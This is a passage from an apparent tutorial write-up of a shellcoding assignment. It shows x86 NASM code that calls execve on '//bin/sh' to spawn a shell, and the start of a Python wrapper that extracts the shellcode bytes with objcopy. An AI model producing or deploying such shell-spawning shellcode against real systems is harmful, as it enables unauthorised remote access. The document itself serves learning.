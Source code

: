 ```nasm
SpawnShell:

    push ecx

    ; argv, 2nd argument of execve
    mov ecx, esp

    ; envp, 3rd argument of execve
    mov edx, esp
```

{% sidenote `ECX` and `EDX` are pointers to `NULL`, so **argv** and **envp** are empty %}

```nasm
    push 0x68732f6e
    push 0x69622f2f
    mov ebx, esp

    ; exceve syscall
    xor eax, eax
    mov al, 11
    int 0x80
```

{% sidenote Call `execve` on `//bin/sh` %}

As you can see, after it redirects input, output, and error, the `execve` syscall spawns an SH shell.

## Automation

One of the requirements of the assignment is to be able to easily configure the TCP port. I decided to write `python` script that acts as a wrapper (script named `wrapper.py`):

```py
import os
import sys
import argparse
import traceback
import subprocess


def print_shellcode(object_file_path):

    try:
        command = ["objcopy", "-O", "binary", "-j", ".text", object_file_path, "/dev/stdout"]
        proc = subprocess.run(command, stdout=subprocess.PIPE)
    except:
        print(traceback.format_exc())
        sys.exit(1)
```

{% sidenote The binary `objcopy` belongs to the package `binutils`, which must be installed, otherwise the program will throw an error %}
